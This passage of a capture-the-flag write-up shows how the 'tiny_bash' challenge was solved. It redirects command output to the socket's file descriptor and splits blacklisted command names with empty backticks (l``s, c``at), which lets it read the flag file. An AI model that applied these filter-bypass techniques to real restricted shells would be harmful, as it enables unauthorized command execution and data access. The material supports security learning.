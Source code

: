 ```
$ ./tiny_bash 6666
Accepted connection from 127.0.0.1
User request: id

uid=1000(vbox) gid=1000(vbox) groups=1000(vbox),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

So what do we do? Well if you know that after each time you open a socket, you open a file descriptor to be able to communicate between sockets.

There are three [file descriptors](https://en.wikipedia.org/wiki/File_descriptor) for each process by default opened:

* `0`: stdin
* `1`: stdout
* `2`: stderr

If we open a socket and the highest file descriptor number currently is `3`, the new file descriptor gets the number `4`.

You can redirect file descriptors to other file descriptors using `bash`'s [`I/O Redirection`](http://www.tldp.org/LDP/abs/html/io-redirection.html).

E.g. using `2>&4` you redirect `stderr` to our socket connection's file descriptor:

```bash
>> is 2>&4
sh: 1: is: not found
```

All that is left to do is redirect the output, `stdin` or `stderr`, of a non-blacklisted command to our socket.

There are several solutions:

* `du` - List all files:
```bash
>> du * 1>&4
4       this_file_contains_flag_cat_it.txt
16      tiny_bash
```
* `tac`:
```bash
>> tac * >&4
<garbage>{desire_is_the_key_to_motivation}<garbage>
```
* `rev`:
```bash
>> rev * 1>&4
}noitavitom_ot_yek_eht_si_erised{
```
* `xxd`:
```bash
>> xxd th* 1>&4
0000000: 7b64 6573 6972 655f 6973 5f74 6865 5f6b  {desire_is_the_k
0000010: 6579 5f74 6f5f 6d6f 7469 7661 7469 6f6e  ey_to_motivation
0000020: 7d0a                                     }.
```
* `ls` plus `cat` with some bash hacks:
```bash
>> l``s >&4
this_file_contains_flag_cat_it.txt
tiny_bash
>> c``at th* >&4
{desire_is_the_key_to_motivation}
```
